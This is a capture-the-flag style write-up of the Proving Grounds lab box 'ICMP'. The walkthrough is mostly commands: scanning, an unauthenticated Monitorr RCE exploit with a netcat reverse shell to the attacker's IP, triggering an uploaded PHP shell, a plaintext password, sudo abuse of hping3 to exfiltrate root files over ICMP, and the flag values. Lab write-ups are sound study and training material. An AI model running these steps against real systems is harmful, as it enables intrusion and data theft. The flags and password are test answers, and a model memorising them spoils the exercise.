




# ICMP - Proving Grounds Practice Writeup

## Overview

| Property | Value |
|----------|-------|
| Name | ICMP |
| Difficulty | Intermediate |
| OS | Linux |

This box was a fun one. I'd rate it intermediate - not too hard, but the privilege escalation had me scratching my head for a bit but clicked after playing with the cli. The cool part was getting hands-on experience with ICMP data exfiltration using hping3, which isn't something I see every day.

---

## Enumeration

Started off with the usual nmap scan:

```bash
nmap -sC -sV -oN nmap_initial.txt 192.168.56.218
```



Got SSH on 22 and HTTP on 80. Nothing fancy, so I moved on to directory busting.

```bash
gobuster dir -u http://192.168.56.218 -w /usr/share/wordlists/dirb/common.txt -t 50
```

Found that `/index.php` was redirecting to `/mon`. Checked it out in the browser and found Monitorr 1.7.6m running.



---

## Initial Foothold - Monitorr RCE

Quick searchsploit search showed there's an unauthenticated RCE for this version. Nice.

```bash
searchsploit monitorr
searchsploit -m 48980
```

Set up my listener and ran the exploit:

```bash
nc -lvnp 3000
python3 48980.py http://192.168.56.218/mon 192.168.49.56 3000
```

The exploit uploaded the shell but it didn't auto-trigger. Had to manually check the upload directory and trigger it:

```bash
curl http://192.168.56.218/mon/assets/data/usrimg/
curl http://192.168.56.218/mon/assets/data/usrimg/she_ll.php
```

Got my shell as www-data. Upgraded it real quick:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
# Ctrl+Z
stty raw -echo; fg
export TERM=xterm
```

---

## Privilege Escalation - Getting to Fox

Poked around and found a user called `fox`. Grabbed the user flag from their home directory:

```bash
cat /home/fox/local.txt
```


There was also a `reminder` file that mentioned something about `crypt.php`. The `devel` directory had weird permissions - couldn't list it but I figured maybe crypt.php was in there. Took a shot:

```bash
cat /home/fox/devel/crypt.php
```

Boom. Found the password in plain text: `BUHNIJMONIBUVCYTTYVGBUHJNI`

```bash
su fox
# Password: BUHNIJMONIBUVCYTTYVGBUHJNI
```

---

## Privilege Escalation - Fox to Root

Checked sudo permissions:

```bash
sudo -l
```

```
(root) /usr/sbin/hping3 --icmp *
(root) /usr/bin/killall hping3
```

So I can run hping3 as root but only with the `--icmp` flag. Can't just use the GTFOBins trick directly. Did some research and found out you can use hping3 to send file contents over ICMP packets.

The trick is to use two sessions - one listening for ICMP packets, one sending the file. I just SSH'd into the box twice as fox.

**Terminal 1 - Listener:**
```bash
sudo /usr/sbin/hping3 --icmp --listen SECRETKEY -I lo
```

**Terminal 2 - Send root flag:**
```bash
sudo /usr/sbin/hping3 --icmp 127.0.0.1 -d 100 --sign SECRETKEY -E /root/proof.txt -c 5
```

This worked because hping3 runs as root via sudo, so it can read any file on the system. The `-E` flag reads the file contents and embeds them into ICMP packets, while the listener on the other session catches those packets and displays the data. Basically, we're smuggling root's files through ping packets.

I tried it two ways - exfiltrating the SSH key and logging in as root(Which I believe was the intended way), or just grabbing the flag directly. Both work, but I prefer grabbing the flag directly since it's quicker.



---

## Flags

| Flag | Value |
|------|-------|
| local.txt | 97d1b935cbec900e1a3b2291c1c5f111 |
| proof.txt | c0eeb5e91fe1c0111fb0aff02b4af4b7 |

---




---

## Tools Used

- nmap
- gobuster  
- searchsploit
- netcat
- hping3
